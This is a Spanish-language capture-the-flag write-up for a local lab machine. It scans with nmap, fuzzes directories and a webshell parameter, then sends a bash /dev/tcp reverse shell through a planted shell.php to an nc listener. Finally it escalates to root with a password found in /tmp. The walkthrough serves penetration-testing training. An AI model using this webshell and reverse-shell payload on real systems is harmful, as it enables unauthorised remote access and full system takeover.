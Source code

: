 # WhereIsMyWebShell

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
```
Reviamos la web vemos un mensaje que han dejado.
```
Contáctanos

¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)
```
Nos quedmos que tenenmos que revisar el direcctorio **/tmp** cuando tengamos acceso al equipo. De momento vamos a hacer fuzzing a ver si encontramos algo.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/.php                 (Status: 403) [Size: 275]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished

```
Hay dos páginas que llaman la atención **/warning.html** y **/shell.php**, así que vamos a revisarlas.
En **/warning.html** encontramos el siguiente mensaje que ya nos indica que tenemos que buscar un parámetro para poder utilizar una websell.
```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```
```bash
wfuzz -c -t 200 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```
Utilizamos **wfuzz** para buscar el parámetro que nos falta con eso lanzarnos una revershell poniéndonos en escucha por el puerto 443 de nuestro equipo.
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000115401:   200        2 L      4 W        66 Ch       "parameter"
```

## Explotación.
Nos ponemos en escucha por el puerto 443 y lanzamos una reverse shell desde la página **http://172.17.0.2/shell.php**
```bash
nc -lvnp 443
```

```bash
172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 %2Fdev%2Ftcp%2F172.17.0.1%2F443 0>%261"
```
```
 nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37622
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@d9fa4b4b8612:/var/www/html$ whoami
whoami
www-data
```
Recordar que al principio nos habían dejado en la página principal que había un secreto en la ruto ***/tmp**, así que vamos a ver.
```bash
www-data@d9fa4b4b8612:/tmp$ ls -la
ls -la
total 12
drwxrwxrwt 1 root root 4096 May 20 04:55 .
drwxr-xr-x 1 root root 4096 May 20 04:55 ..
-rw-r--r-- 1 root root   21 Apr 12 16:07 .secret.txt
```
Vemos que oculto hay un archivo **.secret.txt**.
```bash
www-data@d9fa4b4b8612:/tmp$ cat .secret.txt
cat .secret.txt
contraseñaderoot123
```
Parece que tenemos la contraseña de root, así que cambiamos de usuario utilizando la contraseña encontrada y ya tenemos acceso a la máquina como root.
```bash
www-data@d9fa4b4b8612:/tmp$ su root
su root
Password: contraseñaderoot123
whoami
root
```

